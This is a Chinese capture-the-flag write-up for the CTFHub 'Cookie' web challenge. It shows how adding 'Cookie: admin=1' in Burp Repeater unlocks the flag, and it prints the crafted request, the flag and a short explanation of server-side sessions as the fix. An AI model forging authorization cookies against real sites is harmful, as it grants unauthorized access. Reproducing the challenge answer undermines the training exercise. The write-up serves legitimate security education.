

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-632776d279ddd898.sandbox.ctfhub.com:10800 |
| Flag | ctfhub{a4136b0c5ad0df83094cce89} |

## 解题过程

打开靶场，页面提示这道题考的是“Cookie 欺骗、认证、伪造”，只有以管理员身份访问才给 flag。我先在 Firefox 里按 F12 打开开发者工具，在 Network 里看这次请求的请求头，发现浏览器带过去的 Cookie 里只有一个普通的身份标识，页面上没有任何输入框可以改成管理员。于是我把请求发到 Burp 的 Repeater，在请求头里新增一条 `Cookie: admin=1`（服务端就是按这个字段判断是不是管理员），点 Send 重新发送。响应从原来的普通页面变成了 “Good job! flag is …”，正文里就是 `ctfhub{a4136b0c5ad0df83094cce89}`。把 flag 填进题目页面，平台提示本题已解出。

## 关键请求/响应

```http
GET / HTTP/1.1
Host: challenge-632776d279ddd898.sandbox.ctfhub.com:10800
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Cookie: admin=1
Connection: keep-alive

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

ctfhub{a4136b0c5ad0df83094cce89}
```

## 原理与复盘

Cookie 是**请求头**里的一个字段，浏览器每次访问同一域名都会自动把它带上，服务器靠它认出“你是谁、什么身份”。正因为完全由客户端保存和发送，用户可以随手改，所以任何只放在 Cookie 里的权限判断都等于没判断。正确做法是 Cookie 里只放一个不可预测的 session id，真正的身份和权限存在服务端会话里，这样客户端改值也越不了权。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
